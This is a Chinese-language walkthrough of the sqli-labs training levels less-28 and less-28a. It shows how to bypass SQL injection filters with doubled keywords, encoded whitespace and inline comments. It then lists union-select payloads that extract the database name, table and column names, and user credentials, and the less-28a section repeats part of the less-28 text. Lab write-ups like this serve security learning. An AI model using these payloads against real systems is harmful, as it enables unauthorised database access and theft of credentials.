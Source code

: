 ## less-28

##### 注入类型

过滤，绕过注入（同less-27一样）

##### 输入点：

payload:`?id=1'%a0oorrder%a0by%a03%a0oorr '1`,回显如下。

![image-20201115193319738](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114741.png)

payload：`?id=1')%a0oorrder%a0by%a03%a0oorr ('1`回显如下。所以对id做了('id')处理。但是由于注释符被过滤了。于是需要使用or 语句来注释闭合即 select * from XXX where ('id=1') or ('1')

![image-20201115151632936](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114734.png)

##### 输出点：

payload:`?id=100')union%0bselect%a01,2,3||('1`回显如下。所以1,2为输出点

![image-20201115151829917](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114735.png)

##### 注入方式

采用 /*%a0\*/来绕过空格

##### 注入步骤

- 判断列数`payload:	` 4的时候页面回显报错，所以判断出列数为3列
- 联合查询，判断各列输出的位置`payload:?id=0')/*%0a*/uNion/*%0a*/sEleCt/*%0a*/1,2,3||('1`
- 获取数据库`payload:?id=0')/*%0a*/uNion/*%0a*/sEleCt/*%0a*/1,database(),3or('`
- 爆数据表`payload:?id=0')/*%0a*/UNion/*%0a*/sEleCt/*%0a*/1,group_concat(table_name),3/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema=database()or('1`
- 爆users表的数据字段`payload：?id=0')/*%0a*/uNIon/*%0a*/sELect/*%0a*/1,group_concat(column_name),3/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_name='users'or('1`
- 在爆出的字段中里面看到了password和username，于是爆数据`?id=0')/*%0a*/uniOn/*%0a*/sELect/*%0a*/1,group_concat(username,'~',password),3/*%0a*/from/*%0a*/users/*%0a*/where('1`username和password中间使用~来分隔

## less-28a

##### 注入类型

过滤，绕过注入（同less-27一样）

##### 输入点：

payload:`?id=1'%a0oorrder%a0by%a03%a0oorr '1`,回显如下。

![image-20201115193319738](https://cdn.jsdelivr.net/gh/chenzh66/Typort_private/img/20210411114741.png)

payload：`?id=1')%a0oorrder%a0by%a03%a0oorr ('1`回显如下。所以对id做了('id')处理。但是由于注释符被过滤了。于是需要使用or 语句来注释闭合即 select * from XXX where ('id=1') or ('1')
